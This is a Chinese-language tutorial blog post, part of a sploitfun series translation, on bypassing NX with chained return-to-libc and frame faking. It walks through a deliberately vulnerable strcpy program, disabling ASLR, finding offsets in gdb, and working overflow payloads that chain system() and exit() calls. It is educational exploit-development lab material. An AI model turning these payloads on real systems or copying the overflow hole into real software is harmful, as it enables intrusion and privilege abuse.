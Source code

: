 ```yaml
---
layout: post
title: 通过chained return-to-libc绕过NX
excerpt: "sploitfun系列教程之2.2 chained return-to-libc"
categories: [sploitfun系列教程]
comments: true
---
```


漏洞代码
```c
//vuln.c
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[]) {
 char buf[256];
 seteuid(getuid()); /* Temporarily drop privileges */
 strcpy(buf,argv[1]);
 printf("%s",buf);
 fflush(stdout);
 return 0;
}
```
编译
```
echo 0 > /proc/sys/kernel/randomize_va_space
gcc -fno-stack-protector -g -o vuln vuln.c -m32
chmod 777 vuln
```
现在我们面临两个问题

- libc地址和参数需要以特定的结构叠放在栈空间，多个libc地址和参数无法同时叠放在一起
- seteuid_arg这个参数值应该是0，但是strcpy()函数的特性，不会讲`\x00`之后的参数拷贝到栈中

为了解决第一个问题我们使用了这两个技术
1. ESP Lifting
2. Frame Faking

#### 什么是Frame Faking?
Frame Faking不是使用libc函数地址（本例中为seteuid）直接覆盖返回地址，而是使用`leave ret`指令来覆盖它。这样避免了参数的重叠，使多个function及参数值的叠放成为了可能，首先我们看一下需要构造的栈空间的结构
![Image text](https://raw.githubusercontent.com/snappyJack1/snappyjack1.github.io/master/img/chanined-return-to-libc.png)

leave指令
```
mov esp,ebp            //esp = ebp
pop ebp                //ebp = *esp
```
ret指令 :  `pop eip`

main函数中的最后两条指令
```shell
(gdb) disassemble main
Dump of assembler code for function main:
  ...
  0x0804851c <+88>: leave                  //mov ebp, esp; pop ebp;
  0x0804851d <+89>: ret                    //return
End of assembler dump.
(gdb)
```
Before main’s epilogue executed, as shown in the above stack layout, attacker would have overflown the buffer and would have overwritten, main’s ebp with fake_ebp0 (0xbffff204) and return address with “leave ret” instruction address (0x0804851c). Now when CPU is about to execute main’s epilogue,  EIP points to text address 0x0804851c (“leave ret”). On execution, following happens:

- leave’ changes following registers
	- esp = ebp = 0xbffff1f8
	- ebp = 0xbffff204, esp = 0xbffff1fc
- ‘ret’ executes “leave ret” instruction (located at stack address 0xbffff1fc) .

seteuid: Now again EIP points to text address 0x0804851c (“leave ret”). On execution, following happens:

- ‘leave’ changes following registers
	- esp = ebp = 0xbffff204
	- ebp = 0xbffff214, esp =0xbffff208
- ‘ret’ executes seteuid() (located at stack address 0xbffff208). To invoke seteuid successfully, seteuid_arg should be placed at offset 8 from seteuid_addr ie) at stack address 0xbffff210
- After seteuid() gets invoked, “leave ret” instruction (located at stack address 0xbffff20c), gets executed.

这样我们的程序就可以实现多个函数调用了

第二个问题，seteuid_arg应为零。如何在堆栈地址0xbffff210通过strcpy方法写入0？

NOTE: 在我的libc.so.6中strcpy方法的地址是 0xb7ea6200 – ie)这个地址本身就包含了一个NULL byte .我们就无法使用strcpy这个方法编写exp. 而sprintf的地址是0xb7e6e8d0, 它可以替代strcpy,将 NULL byte放到栈中响应的位置

在栈中我们可以这样叠放:


```
sprintf | sprintf | sprintf | sprintf | seteuid | system | exit
```
**大概就是sprintf叠放最后是一个\x00,通过调用四个sprintf,达到值为0x00000000**

----

#### 编写exp

确定offset
```shell
gdb-peda$ r `python -c 'print "A"*268+"B"*4'`
...
...
Stopped reason: SIGSEGV
0x42424242 in ?? ()
```
查看buf地址
```
gdb-peda$ p &buf
$2 = (char (*)[256]) 0xffffd430
```
找到return address地址为`0xffffd53c`
```shell
gdb-peda$ x/100wx 0xffffd430
0xffffd430:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd440:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd450:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd460:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd470:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd480:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd490:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd4a0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd4b0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd4c0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd4d0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd4e0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd4f0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd500:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd510:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd520:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd530:	0x41414141	0x41414141	0x41414141	0x42424242
0xffffd540:	0x00000000	0xffffd5d4	0xffffd5e0	0xf7fd86b0
```
通过`more /proc/1745/maps`查看libc基地址

通过`readelf -s /usr/lib/libc-2.17.so |grep system`查看offset

通过`objdump -s vuln | less`查找字符串地址

使用`ROPgadget --binary vuln | less`查找代码片段

搭建好一个function的exp(运行time命令)`aaa | system address | exit address | args:time`
```shell
./vuln `python -c 'print "A"*268+"\x70\x0f\xe4\xf7"+"\xa0\x47\xe3\xf7"+"\xd2\xf7\xe0\xf7"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAp澉燝泖吟圜user	0m0.00s
sys	0m0.00s
```
通过`leave;ret`实现的运行一个function的exp(运行time命令)`fake ebp0 | system address | exit address | args:time | "A"*248 | fake ebp0的地址 | leave_ret `
```shell
gdb vuln
gdb-peda$ r `python -c 'print "\xa0\x47\xe3\xf7"+"\x70\x0f\xe4\xf7"+"\xa0\x47\xe3\xf7"+"\xd2\xf7\xe0\xf7"+"A"*248+"\x30\xd4\xff\xff"+"\x68\x84\x04\x08"'`
```
通过`leave;ret`实现的运行多个(两个)function的exp`fake ebp0(指向fake ebp1) | system addr | leave_ret | system_arg:time | fake ebp1 | system addr | exit addr | system_arg:time | "A"*232 | fake ebp0的地址 | leave_ret `
```shell
gdb vuln
gdb-peda$ r `python -c 'print "\x40\xd4\xff\xff"+"\x70\x0f\xe4\xf7"+"\x68\x84\x04\x08"+"\xd2\xf7\xe0\xf7"+"\x50\xd4\xff\xff"+"\x70\x0f\xe4\xf7"+"\xa0\x47\xe3\xf7"+"\xd2\xf7\xe0\xf7"+"A"*232+"\x30\xd4\xff\xff"+"\x68\x84\x04\x08"'`
```
结果看到，运行了两个function
```
gdb-peda$ r `python -c 'print "\x40\xd4\xff\xff"+"\x70\x0f\xe4\xf7"+"\x68\x84\x04\x08"+"\xd2\xf7\xe0\xf7"+"\x50\xd4\xff\xff"+"\x70\x0f\xe4\xf7"+"\xa0\x47\xe3\xf7"+"\xd2\xf7\xe0\xf7"+"A"*232+"\x30\xd4\xff\xff"+"\x68\x84\x04\x08"'`
Starting program: /root/sploitfun/vuln `python -c 'print "\x40\xd4\xff\xff"+"\x70\x0f\xe4\xf7"+"\x68\x84\x04\x08"+"\xd2\xf7\xe0\xf7"+"\x50\xd4\xff\xff"+"\x70\x0f\xe4\xf7"+"\xa0\x47\xe3\xf7"+"\xd2\xf7\xe0\xf7"+"A"*232+"\x30\xd4\xff\xff"+"\x68\x84\x04\x08"'`
吟圜[New process 17599]
process 17599 is executing new program: /usr/bin/bash
Missing separate debuginfos, use: debuginfo-install glibc-2.17-292.el7.i686
user	0m0.00s
sys	0m0.00s
[Inferior 2 (process 17599) exited normally]
user	0m0.00s
sys	0m0.00s
Warning: not running
Missing separate debuginfos, use: debuginfo-install bash-4.2.46-33.el7.x86_64
```